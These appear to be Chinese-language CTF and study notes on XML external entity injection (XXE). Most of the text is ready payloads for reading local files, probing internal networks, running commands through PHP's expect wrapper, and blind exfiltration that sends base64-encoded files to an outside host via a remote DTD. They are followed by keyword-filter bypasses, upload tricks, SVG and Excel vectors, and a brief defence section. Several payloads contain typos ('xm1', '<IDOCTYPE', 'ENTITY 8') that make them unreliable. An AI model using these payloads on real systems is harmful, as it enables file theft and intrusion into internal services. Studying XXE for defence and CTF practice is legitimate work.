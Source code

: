 ![image-20210830102020800](D:\BaiduNetdiskDownload\安全\XXE&XML之利用检测绕过\XXE&XML之利用检测绕过.assets\image-20210830102020800.png)



[CTF XXE - MustaphaMond - 博客园 (cnblogs.com)](https://www.cnblogs.com/20175211lyz/p/11413335.html)

## XML

XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义(可选)、文档元素其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。

## XXE

XXE漏洞全称XML External Entity Injection,即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。

## XML与HTML的主要差异

XML被设计为传输和存储数据，其焦点是数据的内容。
HTML被设计用来显示数据，其焦点是数据的外观。
HTML旨在显示信息而XML旨在传输信息。

## 玩法

```
#读文件
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>

#内网探针或攻击内网应用(触发漏洞地址)
<?xml version="1.0" encoding="UTF-8"?>
<! DOCTYPE foo [
<! ELEMENT foo ANY >
<! ENTITY rabbit SYSTEM "http://192.168.0.103:8081/index.txt"
>
]>
<x>&rabbit;</x>


#RCE
该cAsE是在安装e xpect扩展的PHp环境里执行系统命令
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://id">
]>
<x>&xxe;</x>



#引入外部实体dtd
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY 8 file SYSTEM "http://127.0.0.1:8081/evil2. dtd">
    %file;
]>
<x>&send;</x>

evil2.dtd:
<!ENTITY send SYSTEM "file:///d:/test.txt">


#无回显-读取文件
<?xm1 version="1.0"?>
<IDOCTYPE test [
<!ENTItY % file SYSTEM "php:// filter/read=convert.base64-encode/resource=d:/test.txt">
<!ENTITY % dtd SYSTEM "http://192.168.0.103:8081/test.dtd">
&dtd;
&send;

test.dtd:
<!ENTity 8 payload
	"<!ENTITY &#x25; send SYSTEM
'http://192.168.0.103:8081/ ?data=sfile; '>"
%payload;


#协议-读文件(绕过)
<?xml veraion = "1.0"2>
<IDOCTYPE ANY [ < !ENTITY f SYSTEM
"php://filter/read=convert.base64-encode/resource=xxe.php">
]>
<x>&f;</x>

```

## 绕过方式

ENTITY``SYSTEM``file等关键词被过滤**

使用编码方式绕过：UTF-16BE
`cat payload.xml | iconv -f utf-8 -t utf-16be > payload.8-16be.xml`

若http被过滤，可以

data://协议绕过**

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % a " <!ENTITY %  b SYSTEM 'http://118.25.14.40:8200/hack.dtd'> "> 
    %a;
    %b;
]>
<test>&hhh;</test>
```

file://协议加文件上传**

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % a SYSTEM "file:///var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
    %a;
]>
<!--上传文件-->
<!ENTITY % b SYSTEM 'http://118.25.14.40:8200/hack.dtd'>
```

php://filter协议加文件上传**

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % a SYSTEM "php://filter/resource=/var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
    %a;
]>
    <test>
        &hhh;
    </test>

<!--上传文件-->
<!ENTITY hhh SYSTEM 'php://filter/read=convert.base64-encode/resource=./flag.php'>
```

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % a SYSTEM "php://filter/read=convert.base64-decode/resource=/var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
    %a;
]>
    <test>
        &hhh;
    </test>
<!--上传文件-->
PCFFTlRJVFkgaGhoIFNZU1RFTSAncGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPS4vZmxhZy5waHAnPg==
```

```
PCFFTlRJVFkgaGhoIFNZU1RFTSAncGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPS4vZmxhZy5waHAnPg==
```

## 利用场景

svg

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

tips:从当前文件夹读取文件可以使用`/proc/self/cwd`

excel

[利用EXCEL进行XXE攻击](https://xz.aliyun.com/t/3741)
首先用excel创建一个空白的xlsx，然后解压

```
mkdir XXE && cd XXE
unzip ../XXE.xlsx
```

将`[Content_Types].xml`改成恶意xml，再压缩回去

```
zip -r ../poc.xlsx *
```

## XXE防御

[未知攻焉知防——XXE漏洞攻防](https://security.tencent.com/index.php/blog/msg/69)

- 方案一、使用开发语言提供的禁用外部实体的方法
  PHP：libxml_disable_entity_loader(true);
  其他语言:https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet
- 方案二、过滤用户提交的XML数据
  关键词：`，`,`SYSTEM`和`PUBLIC`。
